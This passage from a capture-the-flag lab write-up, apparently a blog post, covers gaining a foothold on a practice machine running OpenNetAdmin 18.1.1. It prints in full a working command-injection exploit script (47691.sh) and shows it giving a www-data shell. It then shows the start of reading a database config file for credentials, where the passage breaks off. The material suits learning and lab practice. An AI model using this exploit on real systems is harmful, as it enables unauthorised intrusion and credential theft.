 ```shell
===============================================================
2020/07/15 12:35:11 Finished
===============================================================
```

## 2. Getting User
At `http://10.10.10.171/music`, we have a website.<br>
If we click the `Login`, we can go to another page which includes the version of the CMS [OpenNetAdmin](https://opennetadmin.com/) `v18.1.1`.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-07-15/2020-07-14-23-45-59.png)
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-07-15/2020-07-14-23-46-57.png)

Then, try to search exploits for it.<br>
We have a remote code execution for `OpenNetAdmin v18.1.1`
```shell
root@kali:~# searchsploit opennetadmin
------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                    |  Path
------------------------------------------------------------------ ---------------------------------
OpenNetAdmin 13.03.01 - Remote Code Execution                     | php/webapps/26682.txt
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)      | php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                       | php/webapps/47691.sh
------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

#### 47691.sh:
```shell
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

Using `47691.sh`, we can achieve a shell as `www-data`.
```shell
root@kali:~# ./47691.sh http://10.10.10.171/ona/
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

In `/opt/ona/www/local/config/database_settings.inc.php`, we have a potential credential for DB user.
```shell
$ ls ./local/config
database_settings.inc.php
motd.txt.example
run_installer
```
```shell
$ cat ./local/config/database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
```